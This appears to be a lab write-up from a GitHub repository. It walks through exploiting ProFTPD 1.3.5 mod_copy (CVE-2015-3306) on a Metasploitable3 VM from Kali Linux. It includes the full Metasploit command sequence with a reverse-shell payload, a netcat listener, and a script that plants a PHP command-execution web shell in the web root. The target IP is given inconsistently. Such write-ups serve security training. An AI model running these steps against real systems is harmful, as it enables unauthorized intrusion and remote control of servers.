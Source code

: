 ## Step 1: Identifying Metasploitable3's IP Address

To get started, we needed the IP address of the Metasploitable3 machine. We ran the `ifconfig` command directly inside the VM and picked up the address assigned by the NAT network.

- **IP Found:** `192.168.8.160`

![IP Discovery](Screenshots/A-FindIP-Metasplot.png)

---

### Step 2: Checking Network Connectivity

Before trying anything fancy, we made sure the attacker (Kali Linux) could talk to the victim (Metasploitable3). A simple `ping` to the target IP confirmed everything was good — no packet loss.

- **Target IP:** `10.0.2.7`

![Ping Test](Screenshots/B-Connect.png)

---

### Step 3: Port and Service Scanning

Next up, we needed to figure out what was open and running. We went with a full version scan using `nmap` to get a complete picture of the services available for exploitation.

![Nmap Scan](Screenshots/C-FindPorts.png)

---

## Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

Turns out, **ProFTPD 1.3.5** was running — a known vulnerable version. Using Metasploit, we loaded up the `unix/ftp/proftpd_modcopy_exec` module and prepped it for a reverse shell back to Kali.

![msfconsole](Screenshots/D-msfconsole.png)

### Attack Summary

- **Victim IP:** `10.0.2.7`
- **Attacker IP:** `10.0.2.5`
- **Vulnerable Service:** ProFTPD 1.3.5
- **Module Used:** `exploit/unix/ftp/proftpd_modcopy_exec`
- **Payload:** `cmd/unix/reverse_python`
- **Target Directory:** `/var/www/html`

### Commands Overview

```bash
msfconsole
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOST 10.0.2.7
set LHOST 10.0.2.5
show payloads
set payload cmd/unix/reverse_python
set SITEPATH /var/www/html
set AllowNoCleanup true
set DisablePayloadHandler true
exploit
```

---

## Step 5: Reverse Shell Success!

After launching the attack, we triggered the payload by visiting the uploaded file on the victim’s web server. Success! The shell came back, giving us control.

![Victim Shell](Screenshots/E-VictimShell.png)

### Setting Up the Listener

On Kali, we had a Netcat listener ready and waiting on port 4444:

```bash
nc -lvnp 4444
```

---

## Task 1.2: Automating the Exploit with a Custom Script

Instead of manually exploiting ProFTPD, we used a Python script to automate the whole thing.

### Running the Script

From the `/Downloads` folder, we ran:

```bash
python3 Script.py
```

![Running Script](Screenshots/F-RunningScript.png)

### What the Script Does

- Creates a PHP reverse shell (`exploit.php`)
- Uploads it to `/var/www/html/` using ProFTPD’s mod_copy commands
- Provides the URL to trigger the payload manually

### Proof of File Upload

After using the script, we confirmed the file was uploaded by listing the web server directory:

```bash
set CMD ls -l /var/www/html
run
```

![Uploaded Files](Screenshots/G-uploadingFile.png)

---

### Final Confirmation

- Reverse shell connection: Confirmed.
- Script functionality: Verified.
- Payload visibility: `/var/www/html/`
- Task 1.2: Completed.

![PHP Files Uploaded](Screenshots/H-phpFilesUploaded.png)

---

## How the Script Works (Step-by-Step)

### 1. Payload Generation
- Generates `exploit.php`, capable of either reverse shells or executing commands via:

```
http://<victim-ip>/exploit.php?cmd=<command>
```

### 2. Exploiting FTP mod_copy
- Uses the `SITE CPFR` and `SITE CPTO` FTP commands to move the payload into the web root.

### 3. Attacker Instructions
- The script tells you where your payload lives and how to trigger it.

---

## Why ProFTPD mod_copy?

- **CVE-2015-3306** makes it a juicy target.
- Anonymous access? No credentials needed.
- Works flawlessly against Metasploitable3.
